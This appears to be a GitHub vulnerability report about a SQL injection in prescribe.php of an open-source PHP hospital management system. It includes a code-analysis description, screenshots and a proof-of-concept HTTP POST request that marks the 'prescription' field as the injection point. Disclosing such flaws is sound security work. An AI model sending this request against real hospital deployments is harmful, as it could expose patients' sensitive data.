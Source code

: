 # ponaravindb/Hospital-Management-System has sql injection in /prescribe.php

## supplier 

https://github.com/ponaravindb/Hospital-Management-System

## Vulnerability parameter

/ponaravind/Hospital-Management-System/bprescribe.php and $prescription

## describe

An unrestricted SQL injection attack exists in github-ponaravindb-Hospital-Management-System in prescribe.php. The parameters that can be controlled are as follows: $prescription. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $prescription parameter is obtained in prescribe.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/3816a94a-3e6f-45af-8441-af8399af14f3)

![Image](https://github.com/user-attachments/assets/8f5cb045-2df7-4ae1-9490-f593c8a29bac)

## POC

```
POST /prescribe.php HTTP/1.1
Host: hospital-management-system-master
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://hospital-management-system-master
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hospital-management-system-master/prescribe.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ntn1gorbau9lbhqd4u93p5j9d6
Connection: close

disease=11&allergy=1&prescription=1*&fname=&lname=&appdate=&apptime=&pid=&ID=&prescribe=Prescribe
```

![Image](https://github.com/user-attachments/assets/022d08c4-4a7f-47bd-b912-ecc324bda7e0)

**Result**

![Image](https://github.com/user-attachments/assets/9e023356-2a0b-42c5-b8b2-58f13793dc3d)

